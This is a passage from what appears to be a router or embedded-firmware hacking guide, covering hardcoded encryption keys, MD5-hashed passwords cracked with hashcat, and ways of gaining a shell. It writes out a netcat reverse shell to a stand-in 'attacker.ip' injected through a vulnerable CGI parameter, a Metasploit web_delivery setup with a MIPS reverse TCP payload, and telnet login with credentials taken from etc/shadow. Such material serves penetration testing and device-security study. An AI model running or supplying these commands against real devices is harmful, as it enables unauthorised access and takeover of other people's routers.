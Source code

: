 **Hardcoded encryption keys:**

```bash
# Found in binary or config:
AES_KEY = "1234567890ABCDEF1234567890ABCDEF"

# Use key to decrypt firmware or communications
```

**Weak password hashing:**

```bash
# MD5 hashed passwords (etc/shadow):
admin:21232f297a57a5a743894a0e4a801fc3:0:0::/root:/bin/sh

# Crack with hashcat:
hashcat -m 0 hash.txt rockyou.txt
```

---

## Exploitation Techniques

### Gaining Shell Access

**Method 1: Command injection**

```bash
# Find injectable parameter (ping, traceroute, etc.)
# Inject reverse shell:
nc -e /bin/sh attacker.ip 1234

# Or use Metasploit web_delivery:
msfconsole
use exploit/multi/script/web_delivery
set target 7  # Python
set payload linux/mipsle/shell_reverse_tcp  # Adjust for architecture
set lhost attacker.ip
run

# Inject generated command via vulnerable CGI parameter
```

**Method 2: Telnet/SSH with extracted credentials**

```bash
# Found in etc/passwd:
# root:x:0:0::/root:/bin/sh

# Found in etc/shadow:
# root:$1$xyz...:0:0::/root:/bin/sh

# Crack hash or use default password
# Login via telnet:
telnet router.ip
# root / <password>
```
